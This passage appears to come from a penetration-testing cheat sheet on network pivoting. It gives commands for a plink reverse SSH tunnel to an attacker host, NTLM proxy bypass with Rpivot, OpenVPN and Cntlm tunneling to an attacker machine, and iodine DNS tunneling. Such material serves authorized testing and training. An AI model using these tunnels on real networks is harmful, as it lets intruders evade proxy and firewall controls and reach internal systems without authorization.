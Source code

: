 Command-line SSH client, great for reverse tunnels.

```bash

plink.exe -l <username> -pw <password> -R <local_port>:<target_ip>:<target_port> <attacker_ip>

```

Example:

```bash

plink.exe -l root -pw password -R 9090:127.0.0.1:9090 10.11.0.41

```

---

## **NTLM Proxy Bypass**

- Using **Rpivot**
- Using **OpenVPN** with NTLM proxy:

```bash

http-proxy <proxy_ip> 8080 <credentials_file> ntlm

```

- Using **Cntlm** proxy tool:

```

Username Alice
Password P@ssw0rd
Domain CONTOSO.COM
Proxy 10.0.0.10:8080
Tunnel 2222:<attacker_machine>:443

```

> Cntlm official page
> 

---

## **Other Special Tunnels**

### DNS Tunneling

- **Iodine (root required):**

```bash

iodined -f -c -P password 1.1.1.1 domain.com #Server
iodine -f -P password domain.com -r           #Client

```

